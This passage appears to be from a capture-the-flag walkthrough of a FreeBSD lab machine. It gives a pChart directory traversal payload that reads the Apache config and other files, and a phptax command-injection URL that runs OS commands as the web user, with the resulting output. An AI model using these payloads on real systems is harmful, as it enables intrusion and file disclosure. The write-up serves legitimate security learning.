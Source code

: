 However we can check the Apache config file to see what's hidden in the port 8080 config. From looking at the docs for Apache on freebsd it keeps its config in usr/local/etc/apache22/httpd.conf.

{% highlight python %}
/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf

DocumentRoot "/usr/local/www/apache22/data"

SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser

<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2

<Directory "/usr/local/www/apache22/data2">
    Options Indexes FollowSymLinks
    AllowOverride All
    Order allow,deny
    Allow from env=Mozilla4_browser
</Directory>
{% endhighlight %}

It looks like a different web app runs on port 8080, note its document root being different and only allowing access to browsers with the user agent Mozilla/4.0. Changing our user agent will return a new web app phptax :8080/phptax/.

{% highlight python %}
We can also read some of its code in:
usr/local/www/apache22/data2/phptax/index.php
usr/local/www/apache22/data2/phptax/drawimage.php

Note we can also read the code of pchart:
usr/local/www/apache22/data/index.html
usr/local/www/apache22/data/pChart2.1.3/examples/index.php
{% endhighlight %}

## phptax
The phptax web app looks like its used to generate pdfs from web forms, a quick search online shows it has a RCE vulnerability in drawimage.php. 
{% highlight c %}
if ($_GET[pdf] == "make") exec("convert ./data/pdf/$pfilef ./data/pdf/$pfilep");
{% endhighlight %}

This means we can execute OS commands as the www user.

{% highlight python %}
Execute `id > /tmp/test.txt`
:8080/phptax/drawimage.php?pfilez=xxx;%20id%20%3E%20/tmp/test.txt%20;&pdf=make
{% endhighlight %}

Now we can check if the file has been written by using the directory traversal vulnerability in pchart.
{% highlight python %}
/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2ftmp/test.txt

uid=80(www) gid=80(www) groups=80(www)
{% endhighlight %}
